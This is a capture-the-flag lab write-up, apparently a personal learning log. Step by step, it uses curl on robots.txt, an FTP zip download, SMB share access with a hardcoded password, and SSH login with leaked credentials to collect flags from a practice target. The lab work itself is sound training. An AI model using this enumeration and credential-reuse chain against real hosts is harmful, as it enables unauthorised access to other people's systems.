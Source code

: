 
---

##  CTF 2: The Insider’s Leak (Live Run)

###  Objective

Follow the clues left behind by a disgruntled insider and uncover sensitive data using web, FTP, SMB, and SSH enumeration.

---

###  Step 1: Web Recon

**Command:**
```bash
curl http://<target-ip>/robots.txt
```
**Output:**
```
User-agent: *
Disallow: /leaks/
```

**Flag:**
```bash
curl http://<target-ip>/leaks/flag1.txt
# FLAG{recon_detected}
```

---

###  Step 2: HTML Source Analysis

**Command:**
```bash
curl http://<target-ip>/leaks/index.html
```
**Discovered:**
```html
<!-- zip_password=leakpass123 -->
```

---

###  Step 3: FTP Access

**Command:**
```bash
ftp <target-ip>
ls
get data.zip
bye
unzip -P leakpass123 data.zip
cat flag2.txt
```
**Output:**
```
FLAG{cred_inside}
username:sshuser
```

---

###  Step 4: SMB Enumeration

**Command:**
```bash
smbclient //192.168.X.X/smbshare -U smbuser
# Password: smb123
ls
get admin_notes.txt
exit
cat admin_notes.txt
```

**Output:**
```
Internal note: SSH password for sshuser is ssh123
FLAG{smb_enum_success}
```

---

###  Step 5: SSH Login

**Command:**
```bash
ssh sshuser@<target-ip>
# Password: ssh123
cat flag3.txt
```

**Output:**
```
FLAG{access_granted}
```

---

### CTF Summary

| Step | Technique | Flag |
|------|-----------|------|
| robots.txt | Web Recon | `FLAG{recon_detected}` |
| HTML comment | Info leak | `leakpass123` |
| FTP + ZIP | File access | `FLAG{cred_inside}` |
| SMB | Note leakage | `FLAG{smb_enum_success}` |
| SSH | Remote access | `FLAG{access_granted}` |

---

> 🚀 Completed live by Abhi Kaushik
> Writeup formatted with the help of AI to document my personal learning experience.
